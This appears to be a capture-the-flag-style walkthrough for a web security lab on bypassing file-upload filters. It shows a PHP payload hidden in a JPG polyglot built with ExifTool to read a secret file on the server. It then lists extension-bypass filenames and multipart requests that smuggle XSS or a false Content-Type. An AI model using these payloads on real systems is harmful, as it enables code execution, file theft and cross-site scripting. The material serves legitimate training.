 1. On your system, create a file called ``exploit.php`` containing a script for fetching the contents of Carlos's secret. For example:
```
<?php echo file_get_contents('/home/carlos/secret'); ?> 
```
2. Log in and attempt to upload the script as your avatar. Observe that the server successfully blocks you from uploading files that aren't images, even if you try using some of the techniques you've learned in previous labs.
3. Create a polyglot PHP/JPG file that is fundamentally a normal image, but contains your PHP payload in its metadata. A simple way of doing this is to download and run ExifTool from the command line as follows:
```
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
```
This adds your PHP payload to the image's Comment field, then saves the image with a ``.php`` extension. 
4. In your browser, upload the polyglot image as your avatar, then go back to your account page. 
5. In Burp's proxy history, find the ``GET /files/avatars/polyglot.php`` request. Use the message editor's search feature to find the ``START`` string somewhere within the binary image data in the response. Between this and the ``END`` string, you should see Carlos's secret, for example:
``START 2B2tlPyJQfJDynyKME5D02Cw0ouydMpZ END``
6. Submit the secret to solve the lab. 

## BONUS: Additional bypasses by zseano

zseano.php/.jpg
zseano.php%0d%0a.jpg

Don’t forget that often
filenames are reflected on the page and you can smuggle XSS characters in
the filename (some developers may think users can’t save files with < > “
characters in them).

------WebKitFormBoundarySrtFN30pCNmqmNz2
Content-Disposition: form-data; name="file";
filename="58832_300x300.jpg<svg onload=confirm()>"
Content-Type: image/jpeg

ÿØÿà

What is the developer checking for exactly and how are they handling it? Are
they trusting any of our input? For example if I provide it with:

------WebKitFormBoundaryAxbOlwnrQnLjU1j9
Content-Disposition: form-data; name="imageupload"; filename="zseano.jpg"
Content-Type: text/html

Does the code see “.jpg” and think “Image extension, must be ok!” but trust
my content-type and reflect it as Content-Type:text/html? Or does it set
content-type based on the file extension? What happens if you provide it with
NO file extension (or file name!), will it default to the content-type or file
extension?

------WebKitFormBoundaryAxbOlwnrQnLjU1j9
Content-Disposition: form-data; name="imageupload"; filename="zseano."
Content-Type: text/html
------WebKitFormBoundaryAxbOlwnrQnLjU1j9
Content-Disposition: form-data; name="imageupload"; filename=".html"
Content-Type: image/png
<html>HTML code!</html>
